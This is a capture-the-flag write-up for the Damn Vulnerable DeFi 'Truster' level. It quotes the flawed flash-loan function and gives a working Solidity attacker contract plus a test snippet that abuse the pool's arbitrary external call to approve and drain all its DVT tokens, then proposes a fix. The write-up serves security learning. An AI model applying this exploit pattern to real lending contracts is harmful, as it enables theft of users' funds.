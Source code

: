 # Truster

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

## Solution

Let us observe the flashloan function inside `TrusterLenderPool.sol`

```solidity
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

This function takes the amount to borrow, the address of the borrower contract, the address of the target contract the flashloan should interact with and the data to send to that target contarct. We see that the only way the execution of this function does not fail is that the borrower pays back the loan.

The only place to exploit this contract is then using the call to the `target` contract. In this case `functionCall` is a method implemented for addresses of the type `Address` which is a safer type implementes by OpenZeppelin. It implements the low level `call` method, so the data we should pass to it must include a call to a function implemented in `target`.

If we think for a moment, `target` can be any contract we want, and the call of the function within `target` will be signed by the `TrustLenderPool.sol` contract. This means that this contract is blindly signing any possible transaction. Let use this to steal all its funds. Recall that `IERC20` tokens have several ways of transfering. One of them is by the `approve` - `transferFrom` sequence. That is, the sender first approve a certain amount of tokens for the receiver to take, and then the receiver uses `transferFrom` to claim them. Then we only need `TrustLenderPool.sol` to sign an approval for a big amount and we can just take it. We create an attacker contract, that we call [`AttackerTruster.sol`]('./AttackerTruster.sol'). The main function looks like this

```solidity
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature('approve(address,uint256)', address(this), 2**256 - 1);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
```

First we create an instance of both the pool and the DVT token to their respective addresses. Then we prepare the data to call the `approve` function for the maximum value of a `uint256` variable. We call `flashLoan` with the corresponding target to be the DVT token address and the data we defined before. Here we could create a contract that just pays back the borrowed amount, but since the borrowed amount is allowed to be 0 we just simplify it by asking 0, and then we do not need to payback anything. Once this function is executed, `TrustLenderPool.sol` has given us the approval to take all its tokens, and that is what we do in the last line.

To run the attack we complete the code in [truster.challenge.js](../../test/truster/truster.challenge.js) by adding

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE  */
  const Attacker = await ethers.getContractFactory("AttackerTruster", attacker)
  attackerContract = await Attacker.deploy()
  await attackerContract.attack(this.pool.address, this.token.address)
})
```

## Solving the issue

We have seen that the issue here was blindly signing transactions. To solve the issue we should just remove the `target` and `data` parameters. As an issuer of flashloans we do not care who is the contract using the borrowed funds, so this logic should be implemented iin the borrower contract.
